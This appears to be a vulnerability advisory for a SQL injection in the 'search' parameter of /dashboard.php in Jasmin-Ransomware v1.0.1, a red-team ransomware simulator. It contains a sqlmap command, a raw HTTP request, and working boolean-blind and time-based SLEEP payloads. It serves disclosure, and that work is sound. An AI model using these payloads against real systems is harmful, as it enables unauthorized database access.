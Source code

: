 # SQLi vulnerability in Jasmin-Ransomware v1.0.1 of file /dashboard.php with param 'search'

**vender**:

- Jasmin-Ransomware

**SoftLink**:

- [codesiddhant/Jasmin-Ransomware: Jasmin Ransomware is an advanced red team tool (WannaCry Clone) used for simulating real ransomware attacks. Jasmin helps security researchers to overcome the risk of external attacks.](https://github.com/codesiddhant/Jasmin-Ransomware)

**Vulnerable File**

- /dashboard.php

**Version**

- V1.0.1

### POC

```bash
sqlmap -r request.txt -p search --technique BT --level 5 --batch
```



```http
GET /dashboard.php?search=1&pageno=1 HTTP/1.1
Host: www.jasmin.top
Accept-Encoding: gzip, deflate
Referer: http://www.jasmin.top/dashboard.php?search=1&pageno=1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cookie: PHPSESSID=gqgdlhsu3r6nag12j87cfiq3m6
Upgrade-Insecure-Requests: 1
```



```
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=1') AND 3781=3781 AND ('Gxmz' LIKE 'Gxmz&pageno=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: search=1') AND SLEEP(5) AND ('oNUY' LIKE 'oNUY&pageno=1
---
```



![image-20250531044346834](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310443956.png)
